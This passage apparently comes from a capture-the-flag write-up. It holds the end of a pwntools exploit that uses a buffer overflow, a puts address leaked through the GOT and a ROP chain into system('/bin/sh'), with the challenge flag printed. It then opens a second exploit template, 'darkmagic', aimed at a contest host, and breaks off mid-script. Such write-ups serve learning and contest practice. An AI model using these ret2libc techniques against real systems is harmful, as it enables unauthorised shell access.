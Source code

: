```python
payload += p64(libc.symbols["system"])
payload += p64(libc.symbols["exit"])

io.sendlineafter("Secret message: ", "#!@{try_hard3r}")
io.sendlineafter("Message: ", payload)

io.interactive()

# ctf{9bb6df8e98240b46601db436ad276eaa635a846c9a5afa5b2075907adf39244b}
```

Vulnerable function protected with password.
The vuln is a buffer overflow. First we trigger the bug to leak the address of puts through the GOT.
This enables us to find the base address of libc. We then trigger the bug a second time and ROP into `system("/bin/sh")`.

### darkmagic
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 34.89.250.23 --port 32440 ./darkmagic
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./darkmagic')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '34.89.250.23'
port = int(args.PORT or 32440)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
b *0x00000000004007FF
continue
```